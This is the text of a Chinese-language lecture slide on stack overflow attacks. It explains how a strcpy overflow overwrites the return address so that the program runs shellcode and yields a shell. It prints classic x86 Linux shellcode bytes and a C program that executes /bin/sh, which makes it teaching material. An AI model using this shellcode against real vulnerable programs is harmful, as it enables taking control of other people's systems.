

# 栈溢出攻击的原理
溢出有strcpy栈溢出漏洞的程序得到Shell的过程：
使用一个shellcode数组存放shellcode（shellcode把要执行命令编辑成二进制形式以便执行）。
利用程序中的strcpy函数，把shellcode放入程序堆栈。
制造数组越界，用shellcode的开始地址覆盖程序返回地址。
程序返回时会执行shellcode，从而得到一个Shell。
char shellcode[]=
"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b "
"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd "
"\x80\xe8\xdc\xff\xff\xff/bin/sh";

#include <stdio.h>
void main(){
  char *name[2];
  name[0]= " /bin/sh ";
  name[1]=NULL;
  execve(name[0],name,NULL);
}

编译

返回
52
2024/3/18